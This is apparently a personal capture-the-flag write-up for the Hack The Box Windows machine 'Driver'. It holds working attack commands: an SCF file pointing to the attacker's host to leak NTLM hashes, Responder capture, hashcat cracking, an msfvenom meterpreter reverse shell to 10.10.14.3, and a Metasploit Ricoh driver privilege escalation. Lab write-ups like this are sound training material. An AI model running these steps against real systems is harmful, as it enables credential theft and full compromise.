# Driver 
## Windows, Easy
### Enumeration
#### nmap
```
nmap -p- -A -Pn <IP> -o nmap.txt

```
Based on the nmap scan, we have some interesting results
- SMB (445) open, which allows for guest authentication (based on our Nmap script) 
- HTTP (80) open

We can start by trying to connect to smb using smbclient
we cannot connect using the guest account as its disabled. We also cannot connect using anonymous login


SMB did not give us any intial results so lets move on to HTTP (80) and come back if we need too

When you access this page, it directs you to a login page
The first thing I am going to try is basic administrator logins
- administrator:password
- admin:password
- admin:admin

And we actually got in using the admin:admin creds!



Now that we have access to the login page, i started to move around the site and see what we can access/do
Looks like only the "Firmware Updates" works! looks like we are able to upload a file
Based on this page, its hard to tell where this file goes. We may be able to see if its launched on upload

with that, i can try a php reverse shell and see if i can catch it on my machine

after many attmpts, that did not work. I was not able to that

After some addtional research, we can seee if a usernaem will respond back.
We may be able to get an NTLM hash 

We can use a scf (Shell command file) to attempt this

I can create a file that looks like this

This command below will try and run the test.ico file on our machine. So it should send an ntlm hash to authetncate with my machine/this file
```
[Shell] Command=2 IconFile=\\10.10.14.3\test\test.ico [Taskbar] Command=ToggleDesktop

```

Once i have my scf file, i need to have a way to catch the ntlm hash onces its broadcasted to my machine
we can use responder for this

```
responder -i eth0 -dwp

```

Now that responder is running, we can upload the scf file



We got a hash for the user 'tony'!

We can do a few things with this!
- Crack the hash
- Use the Hash to authenticate with other tools

in this case, as its an NTLM-v2 I am going to crack the hash

I copied the hash into a file called "hash"

I can use Hashcat to do this with the following command
```
Hashcat -m 5600 /usr/share/wordlist/rockyou.txt
```
the -m is the mode
- since this is an NTLM V2 hash, we will use mode number of 5600
rockyou.txt is the wordlist I am using againt the ntlm hash we gathered. 
- You can use any wordlis there but rockyou is the most popular and has millions of common passwords

After I run that, you may need to run the same hashcat command with the --show command. As you can see below we had too and how have a password "liltony"
Now we have full creds



username: **Tony**
Password: **liltony**

Now that we have these creds we can use crackmapexec to confirm they are good credentials and we can access the machine

```
crackmapexec winrm 10.10.11.106 -u tony -p liltony
```



With the flag 'Pwn3d' means that these creds were were able to authenticate successfully!

We can now use Win-rm to get shell access
```
evil-winrm -i 10.10.11.106 -u tony -p liltony
```


Now that we have access, we can get the user flag~! 

## Priv Esc

Now that we have achived intial access, we need to see if we can elevate our privs

First, I am gonig to start with WinPeas and let us run and look thorugh teh results.



looking through the results, there are a few things of interest. One is the powershell and cmd history. We may be able to see some admisitrative actions on this device

We can see that there was a printer added with a specific driver. doing some research on this driver it does seem to be vulnerable to local priv escalation.

Through my research, I did not see much available as per manual exploits on the device. The best exploit is to use Metasploit.

Bases on these, I am going to switch my shell over from an evil-winrm to a meterpreter shell

The first thing i need to do is create my payload with msfvenom


```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f exe -o rev.exe
```
after i have my payload, i an use the upload function in my evil-winrm shell to upload the file


Now we can open up Metasploit using the msfconsole command.

We want to use the multi handler to listen for a connection from our initial payload that we uploaded to the victim machine.

we want to use the Metasploit module exploit/multi/handler

Now that we have that module selected, we need to add a few things, the LHOST or our machines ip (You can also use the interface) as well as to set the payload.

We need to set the payload to be the same that our initial payload had. in this case, i went with a windows meterpreter session as it has added capabilities


once we have the listener is place, we can run both. Start the listener first, then run the exe file that we uploaded into the victim box

once we do that, you should get a meterpreter shell. you can use the sessions command in Metasploit to see your open shells/sessions

use sesssions <number>to open us the session.</number>

Now that we have a session we can use the local exploit suggester. we can use this for a few things

- confirm the vulnerability that we initally found
- check for any addtional exploits that are available

to run that, we first need to background are current session.

then we can use the use post/multi/recon/local_exploit_suggester. for this, all we need to do is set the session number and run it.



looking through the results, we do see the ricoh driver


Although it shows its not exploitable, we can try anyways

now we need to do the same thing we did to load the local exploit suggester

use exploit/windows/local/ricoh_driver_privesc

use the options command to see what needs to be set. in this case session, lhost, and lport

I ran this a few times but could not properly execute it

I was getting a "[-] Exploit failed: undefined method `process' for nil:NilClass" process

i got stuck here a bit, as this was a process error, i ran the ps command to view all of the processes running on the device



The only thing I can see is that the session number is different on my rev.exe process vs the rest of them running as the user on this device.

After some research, session 0 are reserved for system and background tasks in windows, they are separate from user ran functions. This could be the process issue. currently, our exe is running at session 0, not allowing it to interact with user interactive functions

lets try and change our session number by migrateing with another process

we can use anything that is running at session 1. in this case, i chose explorer.exe with the Migrate -N command



I ran it again but i am still getting an error, but it is different this time.



Now we are getting a payload issue

using the options command, i can see that the payload is different that what was initally set. it is missing the architecture (as also stated in the error information)

I reset the payload options, and BOOM! we are now NT AUTHORITY\SYSTEM



Now that we are system! Go get that flag!


Thank you for taking the time to review my write-up for the box Driver! 
Follow me on Linked in @ Bryan Fox - https://www.linkedin.com/in/bryan-fox-743179218/
To view more blogs on some other information! visit my github - 